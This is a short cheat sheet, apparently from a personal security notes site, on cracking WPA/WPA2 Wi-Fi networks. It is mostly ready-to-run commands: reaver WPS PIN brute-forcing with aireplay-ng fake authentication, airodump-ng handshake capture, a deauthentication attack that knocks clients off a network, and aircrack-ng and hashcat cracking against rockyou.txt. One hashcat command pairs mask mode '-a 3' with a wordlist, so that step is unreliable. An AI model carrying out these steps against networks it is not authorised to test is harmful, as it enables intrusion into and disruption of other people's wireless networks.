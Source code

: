 ```yaml
---
title: WPA - WPA2 Cracking
tags:
  - security
  - exploitation
  - tool
  - wireless
date: 2024-01-28 14:15:56 -0600
updated: 2025-05-21 19:01:21 -0500
---
```


### Crack WPS Enabled Networks

````bash
wash --interface <interface>
````

**Output**  
`Lck` : Shows if WPS is locked (Can be locked after continuous failed attempts)  
`dBm` : Signal Strength

````bash
aireplay-ng --fakeauth 30 -a <router-bssid> -h <myadapter-bssid> <interface>
reaver --bssid <router-bssid> --channel <channel> --interface <interface> -vvv --no-associate
````

This attack will fail if PBA is enabled. The only way to confirm is by performing the attack

`--no-associate` flag prevents reaver from connecting to the network if the crack was successful (If not set reaver is found to fail in most of the cases)

### Crack WPS Disabled Networks

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename> -w <wordlist>
````

Handshake packet is only transferred when an new device connected to the network.
We can force an device to reconnect using an Deauth Attack

````bash
aireplay-ng --deauth <very-small-number> -a <router-bssid> -c <target-bssid> <interface>
````

If we open the .cap file in Wireshark we can see the "EAPOL (Extensible Authentication Protocol over LAN)" Packet  
i.e. The 4-Way Handshake performed by WPA  
For cracking use of `rockyou.txt` wordlist  
The cracking step can be performed using Hashcat more much faster bruteforcing using GPU

````bash
/usr/share/hashcat-utils/cap2hccapx.bin <cap-file> <filename>.hccapx
hashcat -m 2500 -a 3 -o <output-file> <handshake-file> <wordlist>
````
